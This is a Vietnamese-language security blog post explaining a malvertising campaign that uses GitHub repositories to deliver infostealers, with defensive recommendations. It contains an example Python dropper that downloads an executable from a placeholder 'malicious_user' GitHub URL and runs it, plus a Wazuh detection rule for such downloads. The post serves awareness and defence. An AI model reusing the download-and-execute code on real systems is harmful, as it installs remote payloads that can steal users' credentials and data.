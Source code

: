 ```yaml
---
title: "Cảnh báo nguy hiểm: Mối đe dọa mạng từ Malvertising GitHub"
date: 2025-09-13T18:02:53.347+07:00
draft: false
tags: ["an ninh mạng", "malvertising", "GitHub", "phần mềm độc hại", "infostealer"]
categories: ["An ninh mạng"]
---
```


## Table of Contents
- [Mở đầu](#mở-đầu)
- [Nội dung chính](#nội-dung-chính)
- [Kết luận](#kết-luận)

---

### Mở đầu

![Hình ảnh minh họa chuỗi tấn công Malvertising GitHub](/images/2025/2025-09-13T18:09:09.960+07:00.jpg)

Malvertising, hay quảng cáo độc hại, đã trở thành một trong những phương thức tấn công mạng phổ biến và tinh vi nhất hiện nay. Mới đây, một chiến dịch malvertising quy mô lớn đã bị phát hiện lợi dụng nền tảng GitHub để phân phối phần mềm đánh cắp thông tin (infostealer), gây ra mối đe dọa nghiêm trọng cho hàng triệu thiết bị trên toàn cầu [Nguồn: Microsoft Security Blog]. Bài báo cáo này sẽ đi sâu phân tích cơ chế hoạt động của chiến dịch tấn công này, lý do GitHub bị lợi dụng và đưa ra các khuyến nghị bảo mật nhằm giảm thiểu rủi ro.

Malvertising là việc sử dụng quảng cáo trực tuyến để phát tán phần mềm độc hại. Thay vì hiển thị quảng cáo hợp pháp, tội phạm mạng chèn mã độc vào các banner hoặc pop-up, chuyển hướng người dùng đến các trang web độc hại hoặc tự động tải xuống mã độc. GitHub, một nền tảng lưu trữ mã nguồn phổ biến, đã vô tình trở thành "bãi đáp" cho các phần mềm độc hại này do tính chất mở và đáng tin cậy của nó, gây khó khăn cho các hệ thống bảo mật truyền thống.

### Nội dung chính

#### Cơ chế tấn công Malvertising trên GitHub

Chiến dịch malvertising này hoạt động theo một chuỗi tấn công đa giai đoạn, tinh vi và phức tạp:

1.  **Giai đoạn Khởi nguồn (Initial Access):**
    *   Tấn công bắt đầu từ các trang web có nội dung không chính thống, đặc biệt là các trang xem phim lậu.
    *   Quảng cáo độc hại (malvertising) được nhúng vào các khung phim hoặc banner trên các trang này.
    *   Khi người dùng vô tình nhấp vào quảng cáo, họ sẽ bị chuyển hướng qua một loạt các trang trung gian [Nguồn: Blackswan Cybersecurity].

2.  **Chuyển hướng đến GitHub (Redirection to GitHub):**
    *   Sau nhiều bước chuyển hướng, nạn nhân cuối cùng sẽ được đưa đến một kho lưu trữ (repository) trên GitHub.
    *   Các kho lưu trữ này được tội phạm mạng tạo ra để lưu trữ các tệp độc hại, thường được ngụy trang dưới dạng các ứng dụng hợp pháp hoặc mã nguồn mở [Nguồn: DarkReading].

3.  **Phân phối Payload (Payload Delivery):**
    *   **Payload đầu tiên (First-stage Payload):** Tệp độc hại đầu tiên được tải xuống từ GitHub thường đóng vai trò là một "dropper" hoặc "downloader". Nó được thiết kế để tải về các phần mềm độc hại tiếp theo.
    *   **Ví dụ về code block của dropper:**
        
```python
        # downloader.py - Python script to download second-stage payload
        import requests
        import subprocess

        payload_url = "https://raw.githubusercontent.com/malicious_user/repo/main/second_stage.exe"
        local_filename = "second_stage.exe"

        try:
            response = requests.get(payload_url, stream=True)
            response.raise_for_status()
            with open(local_filename, 'wb') as f:
                for chunk in response.iter_content(chunk_size=8192):
                    f.write(chunk)
            print(f"Downloaded {local_filename}")
            subprocess.Popen([local_filename]) # Execute the downloaded payload
        except Exception as e:
            print(f"Error downloading or executing payload: {e}")
        ```

    *   **Payload thứ hai (Second-stage Payload):** Thực hiện thu thập thông tin hệ thống ban đầu, mã hóa dữ liệu nhạy cảm (ví dụ: bằng Base64) và gửi về máy chủ điều khiển (C2) của kẻ tấn công qua HTTP [Nguồn: Microsoft Security Blog].
    *   **Payload tiếp theo (Third-stage Payload):** Sau khi thông tin ban đầu được thu thập, các mã độc nguy hiểm hơn như Lumma Stealer hoặc Doenerium Stealer sẽ được triển khai. Các phần mềm này có khả năng đánh cắp thông tin đăng nhập, dữ liệu tài chính, ví điện tử và các thông tin nhạy cảm khác [Nguồn: SC Media].

#### Tại sao GitHub bị lạm dụng hiệu quả?

GitHub, với vai trò là nền tảng lưu trữ mã nguồn lớn nhất thế giới, trở thành mục tiêu hấp dẫn cho tội phạm mạng vì nhiều lý do:

*   **Đáng tin cậy và Phổ biến:** GitHub là một nền tảng uy tín và được sử dụng rộng rãi bởi các nhà phát triển và tổ chức. Nhiều công ty IT thường cho phép truy cập GitHub trong môi trường làm việc, khiến việc phát hiện lưu lượng truy cập độc hại trở nên khó khăn hơn. Kẻ tấn công lợi dụng chiến thuật "Living Off Trusted Sites" (LOTS) để ẩn mình [Nguồn: VietnamNet].
*   **Dễ dàng ngụy trang:** Các tệp độc hại có thể được lưu trữ dưới dạng mã nguồn, kịch bản (script) hoặc các công cụ hợp pháp, khiến việc phân biệt giữa mã nguồn tốt và xấu trở nên thách thức đối với các giải pháp bảo mật tự động [Nguồn: ESSVN].
*   **Thiếu giải pháp phát hiện triệt để:** Mặc dù GitHub có các cơ chế bảo mật, nhưng việc phát hiện và ngăn chặn triệt để các hành vi lạm dụng tinh vi như vậy vẫn còn là một thách thức lớn. Kẻ tấn công liên tục thay đổi phương thức để tránh bị phát hiện [Nguồn: An Toàn Thông Tin].

#### Hướng dẫn phòng tránh và bảo vệ

Để bảo vệ bản thân và tổ chức khỏi các mối đe dọa malvertising trên GitHub, cần áp dụng các biện pháp phòng ngừa sau:

1.  **Cẩn trọng với nguồn gốc truy cập:**
    *   Tránh truy cập các trang web không chính thống, đặc biệt là các trang web cung cấp nội dung "miễn phí" như phim lậu, phần mềm crack.
    *   Luôn kiểm tra URL và chứng chỉ bảo mật (HTTPS) của trang web trước khi tương tác.

2.  **Kiểm soát truy cập Internet:**
    *   Trong môi trường doanh nghiệp, cần thiết lập các chính sách kiểm soát truy cập Internet nghiêm ngặt.
    *   Giới hạn quyền truy cập vào các dịch vụ lưu trữ mã nguồn công cộng hoặc các repository không được xác minh.
    *   Sử dụng proxy hoặc tường lửa ứng dụng (WAF) để lọc và kiểm tra lưu lượng truy cập.

3.  **Tăng cường giám sát Endpoint và Network:**
    *   Triển khai các giải pháp EDR (Endpoint Detection and Response) và SIEM (Security Information and Event Management) để phát hiện hành vi bất thường.
    *   Giám sát các quy trình thực thi tệp lạ, đặc biệt là các tệp được tải xuống từ các domain GitHub.
    *   Thực hiện phân tích IoC (Indicators of Compromise) thường xuyên để phát hiện sớm các dấu hiệu tấn công.
    *   **Ví dụ cấu hình giám sát bằng Wazuh SIEM (Rule ví dụ):**
        
```yaml
        <group name="github_malware_detection,">
          <rule id="100001" level="12">
            <if_sid>60101</if_sid> <!-- Example: if a file download event occurs -->
            <field name="win.eventdata.targetFilename" type="pcre2">.*github\.com.*\.exe$</field>
            <description>Possible malware download from GitHub.</description>
            <mitre>
              <id>T1071.001</id>
              <id>T1566.001</id>
            </mitre>
          </rule>

          <rule id="100002" level="10">
            <if_sid>60101</if_sid>
            <field name="win.eventdata.processCommandline" type="pcre2">.*second_stage\.exe.*</field>
            <description>Execution of known second-stage payload from GitHub malvertising.</description>
            <mitre>
              <id>T1059.003</id>
            </mitre>
          </rule>
        </group>
        ```


4.  **Cập nhật phần mềm và giải pháp bảo mật:**
    *   Đảm bảo tất cả hệ điều hành, trình duyệt và phần mềm bảo mật (antivirus, firewall) luôn được cập nhật phiên bản mới nhất.
    *   Theo dõi các khuyến nghị và cảnh báo bảo mật từ các nhà cung cấp lớn như Microsoft, GitHub và các tổ chức an ninh mạng.

### Kết luận

Malvertising lợi dụng GitHub là một minh chứng cho sự phát triển không ngừng của các mối đe dọa mạng. Bằng cách tận dụng các nền tảng hợp pháp và đáng tin cậy, tội phạm mạng có thể dễ dàng ẩn mình và thực hiện các cuộc tấn công quy mô lớn. Việc hiểu rõ cơ chế tấn công, kết hợp với các biện pháp bảo mật chủ động và nâng cao nhận thức người dùng, là chìa khóa để bảo vệ cá nhân và tổ chức khỏi mối đe dọa tinh vi này. Các tổ chức cần đầu tư vào các giải pháp giám sát toàn diện và xây dựng quy trình ứng phó sự cố hiệu quả để đối phó kịp thời với các cuộc tấn công trong tương lai.
